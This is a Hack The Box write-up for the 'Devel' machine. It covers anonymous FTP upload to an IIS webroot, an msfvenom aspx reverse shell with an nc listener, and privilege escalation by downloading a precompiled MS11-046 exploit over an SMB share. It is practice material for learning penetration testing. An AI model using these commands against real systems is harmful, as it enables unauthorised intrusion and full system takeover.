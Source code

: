 ```yaml
---
title: "Hack The Box - Devel"
published: true
---
```


- [Machine Info](#machine-info)
- [Enumeration](#enumeration)
- [Initial Shell](#initial-shell)
  - [Probing FTP](#probing-ftp)
  - [Create payload and upload via FTP](#create-payload-and-upload-via-ftp)
  - [Open listener and trigger exploit](#open-listener-and-trigger-exploit)
- [Privlege Escalation](#privlege-escalation)
  - [Getting our bearings](#getting-our-bearings)
  - [MS11-046](#ms11-046)
  - [Loot!](#loot)

---

## Machine Info

![](/assets/htb-devel/machine_info.png)

## Enumeration

Our Nmap scans show only 2 ports open, running FTP and HTTP. Both are backed by IIS 7.5, telling us that the system is running Windows 7 or Server 2008 R2.

```
Nmap scan report for 10.10.10.5
Host is up, received user-set (0.059s latency).
Scanned at 2020-01-09 13:18:34 EST for 202s
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
```

Gobuster and Nikto show nothing beyond an `/aspnet_client` subsirectory on the HTTP side.

---

## Initial Shell

### Probing FTP

Since web enumeration found nothing of interest, we have to assume the way forward is going to involve FTP in some way. Let's probe FTP and see what we can do.

Initial enumeration of FTP should always include an attempt to login as an `anonymous` user. In this case, we can in fact login as `anonymous`.

![](/assets/htb-devel/ftp_anon_login.png)

Now that we're in the FTP server, where are we? A simple `ls` shows that we're in the root of the web site, as we can see the default IIS page, and the `/aspnet_client` subdirectory.

![](/assets/htb-devel/ftp_webroot.png)

Now we need to test if we can place a test file in the directory as `anonymous`. Since this is the webroot, if we're able to place a file here and pull it up via the web browser, that means we have a way to possibly get RCE.

![](/assets/htb-devel/ftp_put_test.png)

![](/assets/htb-devel/web_test_file.png)

So we can place a file, and retreive it via the web. Since this is IIS, with the `/aspnet_client` present, it means we can probably place a malicious `aspx` page, and get a shell back.

### Create payload and upload via FTP

We can use `msfvenom` to create a payload, and output it to the `aspx` format. The command `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=7500 -f aspx -o shell.aspx`

![](/assets/htb-devel/msfvenom_create.png)

Now we just need to upload it to the FTP server.

![](/assets/htb-devel/ftp_put_shell.png)

### Open listener and trigger exploit

Before we can trigger the exploit, we need to open a listener to catch the shell first. We can do this with `nc -lvnp 7500`.

Once that's setup, all we need to do it navigate a web browser to `http://10.10.10.5/shell.aspx`. We should now have a shell waiting for us in the listener.

![](/assets/htb-devel/initial_shell.png)

---

## Privlege Escalation

### Getting our bearings

Now that we're on the system, we can look around and see what we're dealing with.

The `systeminfo` command shows that we were correct with our guess of Windows 7 as the OS. Also, note that there are no installed Hotfixes on the machine either.

```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          13/1/2020, 4:16:05 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 725 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.528 MB
Virtual Memory: In Use:    519 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```

A `whoami` command shows that we're currently running as an IIS web service.

![](/assets/htb-devel/whoami.png)

A `net user` command shows that the accounts on the system are `Administrator` and `babis`. The `user.txt` flag is probably on the desktop for `babis`, with the `root.txt` flag on the desktop for `Administrator`.

![](/assets/htb-devel/net_user.png)

We can also see that we can't navigate to the `babis` user directory.

![](/assets/htb-devel/babis_denied.png)

### MS11-046

Since there are no hotfixes installed, we have our choice of kernal exploits for local exploit. MOst exploits found online will trigger, but they are not remote shell friendly. This means that even if I run them, they will open a new instance of `cmd.exe` on the PC, not just escalate my current privleges in the current shell.

[This repository for a MS11-046 exploit](https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046) tells us in the source code that it is in fact *remote-shell friendly*.

```c
// spawn shell (with elevated privileges)
    printf("         [*] Spawning shell\n");
    // spawn SYSTEM shell within the current shell (remote shell friendly)
    system ("c:\\windows\\system32\\cmd.exe /K cd c:\\windows\\system32");
```

There is a pre-compiled EXE available, which makes this as simple as copying to it the target with an SMB share, and running it.

```shell
wget https://github.com/abatchy17/WindowsExploits/raw/master/MS11-046/MS11-046.exe

# Start an SMB server via Impacket's smbserver.py in a new terminal
smbserver.py kali .

# From the remote shell
copy \\10.10.14.16\kali\MS11-046.exe
```

Now all that's left is to run the exploit locally on the target.

![](/assets/htb-devel/privesc_whoami.png)

### Loot!

Once we're `SYSTEM`, grabbing flags is trivial.

![](/assets/htb-devel/user_proof.png)

![](/assets/htb-devel/root_proof.png)





